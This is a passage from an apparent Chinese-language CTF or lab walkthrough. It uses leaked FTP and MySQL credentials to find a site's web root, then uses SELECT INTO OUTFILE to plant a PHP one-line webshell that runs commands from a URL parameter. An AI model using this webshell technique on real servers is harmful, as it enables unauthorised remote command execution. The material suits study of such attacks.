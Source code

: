 ### mysql 向文件中写入一句话

使用用户名 elly 与密码 ylle 登入 ftp 服务，查看 apache 配置文件 apache2/sites-available/default-ssl.conf

```bash
ftp:192.168.179.149
cd apache2
cd sites-available
get default-ssl.conf
exit
查看该文件并寻找网站根目录
cat default-ssl.conf | grep DocumentRoot
```

[![](assets/1699929525-6304b96e3cb46d0bb5395e739731c8df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140410-4c2f1b36-8121-1.png)

使用用户名 root 与密码 pplbkac 登录 mysql，并向/blogblog/wp-content/uploads 写入一句话木马文件 exce.php

```bash
mysql -h 192.168.179.149 -uroot -pplbkac
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/https/blogblog/wp-content/uploads/exec.php";
```

[![](assets/1699929525-528b03de318f68a3b8b2bdfb2d7a0a65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140429-5734da66-8121-1.png)

此时 upload 目录下多了一个 exec.php 文件

[![](assets/1699929525-cf65dbdf9bb56d9ab880caa5928185dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140445-6117b7ce-8121-1.png)
